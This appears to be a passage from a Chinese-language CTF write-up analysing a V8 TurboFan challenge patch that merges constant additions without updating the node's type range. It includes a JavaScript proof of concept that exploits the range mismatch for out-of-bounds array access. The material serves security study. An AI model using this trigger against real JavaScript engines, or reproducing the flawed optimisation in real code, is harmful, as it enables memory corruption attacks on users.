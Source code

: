 ```c++
+  double const2 = OpParameter<double>(parent_right->op());
    //两个NumberConstant类型的结点合并
+  Node* new_const = graph()->NewNode(common()->NumberConstant(const1+const2));
+
+  NodeProperties::ReplaceValueInput(node, parent_left, 0);
+  NodeProperties::ReplaceValueInput(node, new_const, 1);
+
+  return Changed(node);
+}
+
+}  // namespace compiler
+}  // namespace internal
+}  // namespace v8
...
```

该优化方式将形如` x + 1 + 2`优化成`x + 3`，如下图

![image-20220209220735597](https://s2.loli.net/2022/02/10/Z9J8wMW5Y1o4y7b.png)

由之前的浮点数精度丢失可知`x + 1 + 1 <  x + 2`，NumberAdd结点range值将小于结点本身的值。



下面直接分析poc代码

```javascript
function f(x)
{   let float_arr = [1.1, 2.2, 3.3, 4.4];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;
    t -= 9007199254740989; 
    console.log('arr[t]:',float_arr[t]);   
}

f(1);
%OptimizeFunctionOnNextCall(f);
f(1);
```

在Typer阶段，还未进行`x + 1 + 1 -> x + 2`的优化，t为`range(9007199254740989,9007199254740992)`，执行` t = t + 1 + 1;`后，t为`range(9007199254740991,9007199254740992)`，最终t为`range(2,3)`。如下图

![image-20220209230130422](https://s2.loli.net/2022/02/10/8jPwUXglFbDGYu6.png)

在TypedLowering阶段，进行`x + 1 + 1 -> x + 2`的优化，t为`range(9007199254740989,9007199254740992)`，执行` t = t + 2;`后，t为`range(9007199254740991,9007199254740994)`，最终t为`range(2,5)`。正确优化应该如下图

![image-20220209231013852](https://s2.loli.net/2022/02/10/noHBuZa8x4gWRDI.png)

但是题目中的代码只是将两个NumberConst合并，并没有更新根节点NumberAdd的range，所以在turbofan中NumberAdd结点仍然是未优化前的`range(9007199254740991,9007199254740992)`，如下图

![image-20220209231431893](https://s2.loli.net/2022/02/10/8oIPzi69JXjhYKV.png)
